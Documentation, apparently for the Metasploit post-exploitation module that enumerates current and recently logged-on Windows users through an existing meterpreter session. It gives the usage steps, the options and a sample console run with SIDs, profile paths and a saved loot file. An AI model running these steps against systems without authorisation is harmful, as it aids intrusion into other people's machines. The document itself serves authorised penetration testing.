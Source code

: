 
## Vulnerable Application

This module will enumerate current and recently logged on Windows users.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_logged_on_users```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  **CURRENT**

  Enumerate currently logged on users. Default: ```true```

  **RECENT**

  Enumerate Recently logged on users. Default: ```true```

  **SESSION**

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49196) at 2019-12-13 04:36:54 -0700

  msf exploit(multi/handler) > use post/windows/gather/enum_logged_on_users
  msf post(windows/gather/enum_logged_on_users) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_logged_on_users) > run

  [*] Running against session 1

    Current Logged Users
    ====================

    SID                                            User
    ---                                            ----
    S-1-5-21-3113421791-4205713440-112141152-1000  TEST-PC\TEST


    [+] Results saved in: /root/.msf4/loot/20191213054456_default_192.168.1.10_host.users.activ_424278.txt

    Recently Logged Users
    =====================

    SID                                            Profile Path
    ---                                            ------------
    S-1-5-18                                       %systemroot%\system32\config\systemprofile
    S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
    S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
    S-1-5-21-3113421791-4205713440-112141152-1000  C:\Users\TEST


    [*] Post module execution completed
  ```
